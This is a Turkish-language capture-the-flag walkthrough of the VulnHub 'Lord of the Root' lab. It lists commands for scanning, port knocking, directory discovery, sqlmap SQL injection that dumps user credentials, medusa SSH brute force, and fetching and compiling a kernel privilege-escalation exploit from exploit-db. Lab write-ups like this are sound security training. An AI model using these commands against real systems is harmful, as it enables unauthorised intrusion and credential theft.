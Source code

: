 

İndirme Linki; https://www.vulnhub.com/entry/lord-of-the-root-101%2C129/

Lab kurulumunu tamamladıktan sonra sanal makinenin ip adresini bulmak için

<code>netdiscover -i eth1 -r 192.168.56/24 </code>  komutunu çalıştırıyoruz.
![1](https://user-images.githubusercontent.com/32979760/115157062-e6548b80-a08f-11eb-845a-7d17f1ce0738.PNG)

![2](https://user-images.githubusercontent.com/32979760/115157080-f66c6b00-a08f-11eb-9f61-bde36fe19ada.PNG)

Yukarıda çıktıya baktığımızda sanal makinenin ip adresini bulmuş olduk.Şimdi gelecek adımda nmap taraması yapacağız.

<code>nmap -T5 -A -n 192.168.56.104 </code> 

komutunu çalıştırıyoruz

![3](https://user-images.githubusercontent.com/32979760/115157157-5cf18900-a090-11eb-900d-553683414dcc.PNG)

Çıktıdan anlaşılacağı üzere ssh servisinin açık olduğunu görüyoruz ve ssh bağlantısı kurmaya çalışıyoruz.
<code>ssh root@192.168.56.104</code>
komutunu çalıştırıyorum.

![4](https://user-images.githubusercontent.com/32979760/115157220-b8bc1200-a090-11eb-83e9-e240c7105d88.PNG)

Çıktıya baktığımızda port knocking işlemi yapmamız gerektiği mesajı verilmiştir.

Buradaki python toolu indirilmiştir; https://github.com/grongor/knock

<code>./knock.py 192.168.56.104 1 2 3 </code>

komutunu çalıştırıyoruz ve portları knockluyoruz.

![5](https://user-images.githubusercontent.com/32979760/115157381-9a0a4b00-a091-11eb-89eb-efa0e17613c0.PNG)

Ve tekrar nmap ile tarama yapıyoruz.

<code>nmap -T5 -sS -A -n 192.168.56.104 --top-ports 1000 </code>

komutunu çalıştırıyoruz.

![6](https://user-images.githubusercontent.com/32979760/115157471-10a74880-a092-11eb-8c46-fcd3378537c4.PNG)

Çıktıda görüleceği üzere 1337. portun açık olduğu görülmüştür ve web sitesi ziyaret edilmiştir.

![7](https://user-images.githubusercontent.com/32979760/115157551-99be7f80-a092-11eb-86cd-4f44efa4fbd6.PNG)

Web sitesini ziyaret ettiğimizde bir fotoğraf ve üzerinde yüzüğü mordora götüreceğim diye bir yazı yazmaktadır.
Sitenin kaynak koduna bakıldığında sadece fotoğrafın tek satırlık img srcsi görülmüştür bu sayfadan bir şey elde edemeyeceğimiz anlaşılmıştır ve dizin keşfine geçilmiştir.

<code>dirb http://192.168.56.104/1337 </code>

komutu çalıştırılmıştır.

![8](https://user-images.githubusercontent.com/32979760/115157993-ad6ae580-a094-11eb-9b54-0d622a0bab96.PNG)

ve çıktıdan görebileceğimiz gibi images klasörü bulunmuştur, images klasöründeki dosyalar indirilmiş fotoğrafların kontrast ayarlarıyla oynanmış exiftool ve binwalk ile incelenmiştir.Bu araştırmalardan herhangi bir sonuç elde edilememiştir.Her CTF'de kontrol edilmesi gereken sayfalardan birisi olan robots.txt'ye bakılmıştır.

![9](https://user-images.githubusercontent.com/32979760/115158146-7c3ee500-a095-11eb-9b45-17909bbb7b61.PNG)

Yukarıdaki çıktıda gördüğümüz gibi bizi yine bir fotoğraf karşılamaktadır ve sayfanın kaynak koduna bakılmıştır.

![10](https://user-images.githubusercontent.com/32979760/115158221-c7f18e80-a095-11eb-9922-1bc2baa26ef7.PNG)

ve çıktıda göreceğimiz üzere bir şeyler bulduk. 2 defa encode edilmiş base64 formatında görüyoruz bunları decode ediyoruz.

![11](https://user-images.githubusercontent.com/32979760/115158353-6978e000-a096-11eb-8116-c0e53f3953b3.PNG)

çıktıda bulduğumuz dizine gidiyoruz.

![12](https://user-images.githubusercontent.com/32979760/115158402-a04ef600-a096-11eb-9bcc-63fa18bd0910.PNG)

ve bizi mordorun kapıları karşılıyor :) .
Bu giriş sayfasında sql injection açığı olduğu düşünülmüştür ve gerekli testlere devam edilmiştir
Burpu çalıştırıyoruz intercepti aktif edip post isteği atıyoruz ve buradaki isteği kaydediyoruz.

![14](https://user-images.githubusercontent.com/32979760/115158581-882ba680-a097-11eb-8cf1-bb82d49f2071.PNG)

buradaki isteği kaydettikten sonra text editör ile açıyoruz

![15](https://user-images.githubusercontent.com/32979760/115158650-dc368b00-a097-11eb-8b65-d93c208f224c.PNG)

gördüğünüz gibi usertest yazısının sonuna * karakteri eklenmiştir.Bu burp için post isteğinin, payloadların nereye gönderileceği belirtilmiştir.Dosyayı kaydedip kapatıyoruz.

<code>sqlmap -r burpresult.txt(dosya adımız) --technique T --dbms mysql --dbs </code>

komutunu çalıştırıyoruz ve açığın var olduğunu görüp veritabanı isimlerini çekmeyi başlıyoruz.

![16](https://user-images.githubusercontent.com/32979760/115159382-8bc12c80-a09b-11eb-8a64-90496a8f0fc8.PNG)

Veritabanı isimlerine bakıldığında Webapp adlı veritabanının bilgileri çekileceği aşikardır.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T --tables -D Webapp </code>

![17](https://user-images.githubusercontent.com/32979760/115159498-12760980-a09c-11eb-9987-4817fbe2b799.PNG)
![18](https://user-images.githubusercontent.com/32979760/115159528-376a7c80-a09c-11eb-87ed-046d6005935c.PNG)

Tek tablo olan Users tablosunun içerisindeki kolonları çekmeye başlayalım ama önce kolon içerisindeki verileri çekmek için kolon isimlerini öğrenelim.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users --columns</code>
![19](https://user-images.githubusercontent.com/32979760/115159674-ffb00480-a09c-11eb-9055-972398caaeff.PNG)

burada bize lazım olan username ve password kolonları olduğu için oradaki verileri çekmeye başlıyoruz.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users -C username --dump </code>
  
![20](https://user-images.githubusercontent.com/32979760/115159839-c75cf600-a09d-11eb-9e06-8a69ee243808.PNG)

username bilgilerini çektik şimdi password bilgilerini çekelim.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users -C password --dump </code>

![21](https://user-images.githubusercontent.com/32979760/115159999-929d6e80-a09e-11eb-9f45-0d6a1eaf7c8c.PNG)

bu çektiğimiz kullanıcı adı ve şifreleri bir text dosyasına yazıyoruz
![22](https://user-images.githubusercontent.com/32979760/115160052-d98b6400-a09e-11eb-9f03-4bd0fe7f4c3a.PNG)
![23](https://user-images.githubusercontent.com/32979760/115160053-da23fa80-a09e-11eb-98e5-cd5a4f84eb3e.PNG)

Hangi kullanıcının ssh ile bağlanma yetkisi olup olmadığını bilmediğimiz için ssh servisine medusa ile brute force yapacağız.
<code>medusa -h 192.168.56.104 -U users -P passwords -M ssh </code>

![24](https://user-images.githubusercontent.com/32979760/115160119-3a1aa100-a09f-11eb-8c9b-3f8abd14638d.PNG)

Brute force atağımız sonuç verdi ve kullanıcı adı ve parolayı bulduk şimdi bu bilgilerle ssh bağlantısı yapıyoruz.

<code>ssh smeagol@192.168.56.104 </code>

buradan sonra bize parola soruluyor ve buraya </code>MyPreciousR00t</code> parolasını giriyoruz ve shelle düşüyoruz.Shelle düştükten sonra whoami yazıp kim olduğumuzu görüyoruz.

![25](https://user-images.githubusercontent.com/32979760/115160219-c036e780-a09f-11eb-8ae2-27af12ec2a03.PNG)

root olmadığımızı görüyoruz ve bu sistemde hak yükseltmek için exploit olup olmadığını araştırmamız gerekiyor.İlk olarak

<code>uname -a </code>

komutunu çalıştırıyoruz ve sistem bilgilerini, sürümünü görüyoruz.

![26](https://user-images.githubusercontent.com/32979760/115160265-1146db80-a0a0-11eb-9ed2-0ab8b78122dd.PNG)

Sistem bilgilerini google arama motoruna yazıp exploit araştırıyoruz.

![27](https://user-images.githubusercontent.com/32979760/115160327-566b0d80-a0a0-11eb-9b1c-56b20cb80cab.PNG)

Burada karşımıza 2 tane exploit çıkıyor bunun ilkini deniyoruz.

<code>wget https://www.exploit-db.com/download/39166 </code>

![28](https://user-images.githubusercontent.com/32979760/115160393-96ca8b80-a0a0-11eb-9a34-9113ee773e1d.PNG)

Ardından aşağıdaki fotoğrafta gösterildiği gibi komutları sırasıyla girip C kodumuzu derleyip çalıştırıyoruz.

![29](https://user-images.githubusercontent.com/32979760/115160459-e14c0800-a0a0-11eb-813a-8095214fa1cb.PNG)

whoami yazdığımızda ise görüldüğü üzere root olduğumuzu görüyoruz.

![30](https://user-images.githubusercontent.com/32979760/115160497-22441c80-a0a1-11eb-815d-f1079700c1aa.PNG)

ve root dizinine gidip içerisindeki Flag.txtyi okuyup CTF'i burada sonlandırıyoruz.

Okuduğunuz için teşekkürler.






